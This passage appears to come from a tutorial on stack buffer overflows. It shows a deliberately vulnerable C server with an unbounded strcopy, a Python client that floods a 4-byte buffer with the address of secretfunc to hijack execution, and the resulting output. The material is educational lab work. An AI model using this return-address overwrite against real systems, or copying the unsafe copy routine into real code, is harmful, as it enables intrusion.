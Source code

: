     void secretfunc(void) {
        puts("1337 h4x07\n");
    }
    
    void strcopy(char* dst, char* src) {
        while ((*dst++ = *src++));
    }

The main function calls `overflowme`, but the objective here is to make the program execute `secretfunc`, which it currently does not. To achieve this, the exact memory address of `secretfunc` as it exists in the address space of the running program is needed. To keep this first example simple, the address is output:

    printf("[+] secretfunc is @ %p\n", (void*)secretfunc);

Which dumps out something like this:

    [+] secretfunc is @ 0x804975a                                                                                                                                                                                   
`overflowme` contains a 4 byte buffer. To get the program to run `secretfunc`, seems like just a matter of filling the buffer up with a large number of bytes that match the address of `secretfunc` (0x804975a). Some Python that will interact with the vulnerable server process - to start let try and flood the 4-byte buffer with 12 bytes:

```python
#!/usr/bin/env python

import socket
import struct

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 8888))
#buf="A" * 8
buf = struct.pack('<I', 0x804975a) * 12
print("Sending shellcode (" + str(len(buf)) + " bytes)")
s.send(buf)
```

Start the vulnerable C server process:

    # ./bin/server
    [+] Server is starting...
    [+] Server is now listening on 8888
    [+] secretfunc is @ 0x804975a
    [+] Awaiting clients...

And run the python exploit:

      [+] (Client 4) Connected
    Printing:You are client 4
      [+] (Client 4) Sent us 48 bytes
      [+] (Client 4) Sent us ''
    1337 h4x07
    1337 h4x07
    ...
    Illegal instruction
